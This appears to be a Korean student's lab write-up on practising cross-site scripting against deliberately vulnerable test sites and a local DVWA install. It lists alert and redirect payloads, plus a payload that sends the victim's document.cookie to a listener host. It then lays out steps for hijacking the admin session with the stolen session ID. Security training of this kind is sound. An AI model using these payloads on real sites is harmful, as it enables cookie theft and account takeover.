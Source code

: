 ```yaml
---
title: "웹 보안 실습 2"
date: 2024-11-17
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## **XSS (Cross-Site Scripting)**

### **취약한 사이트 실습**

#### **1. Acunetix 사이트**

- **URL**: `http://testphp.vulnweb.com/listproducts.php?cat=1`

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시


#### **2. AltroMutual 사이트**

- **URL**: [demo.testfire.net](https://demo.testfire.net)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시
- `<script>location.href="http://www.naver.com";</script>`  
  사용자를 네이버 웹사이트로 리다이렉션

#### **3. DVWA 사이트 (Kali Linux/Ubuntu Apache2 환경)**

1. 우분투 아파치 웹 서버 로그 남기기
![](assets/img/정보보안/실습/W_2-1.jpg)

2. DVWA에서 실행할 스크립트 작성
`<script>document.location='http://10.10.10.11/cookie?'+document.cookie</script?>`

3. DVWA XSS에서 실행 (admin/password 계정)

4. 우분투에서 로그 확인 (SSID)

5. 우분투에서 DVWA 접속 (pablo/letmein 계정)

6. f12 저장소의 SSID 값을 로그에서 확인한 값으로 변경

7. 새로고침 하면 admin계정으로 접속 됨